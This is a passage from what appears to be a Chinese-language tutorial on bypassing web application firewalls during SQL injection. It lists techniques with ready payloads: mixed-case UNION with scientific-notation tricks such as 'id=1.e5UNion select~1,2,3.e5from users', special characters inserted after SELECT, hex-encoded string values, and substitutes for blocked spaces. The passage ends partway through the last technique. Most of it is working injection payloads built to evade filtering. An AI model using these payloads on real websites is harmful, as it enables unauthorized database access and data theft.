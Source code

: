 **version()是可以的**

### 出现``原因:

mysql设计的时候为了**区分保留字**

例如

`select \* from users where id\="1"`

如果\*这个字段被输入进来select,那么就变成了

`select select from users where id\="1"`

这个两个重名了,为了防止报错就会用``去转义

`select \`select\` from users where id\="1"`

### 5.科学技术法配合着大小写绕过

`id=1 union select 1,2,3`

这是一个简单的查询语句,正常情况下,**waf百分之一百都会去拦截union字段**

`id=1.e5UNion select 1,2,3`

同样还有一个字段from可以通过这个方法绕过

`id=1.e5UNion select 1,2,3.e5from users`

### 6.特殊字符绕过

如果**出现select 1**,waf就拦截,waf拦截我们不让我们去查询

- select+1
- select-1
- select!1
- select~1
- select"1"
- select'1'

**组合**我们可以插在select和字符之间,综合绕过waf的payload

`id=1.e5UNion select~1,2,3.e5from users`

### 7.十六进制绕过

`select \* from users where username= Dumb`

利用ascii码表转换一下

`select \* from users where username= 0x44756D62`

### 8.如果空格被禁用了

#### 第一种方法;注释符/\* \*/，%a0

两个空格代替一个空格，用Tab代替空格，%a0=空格：
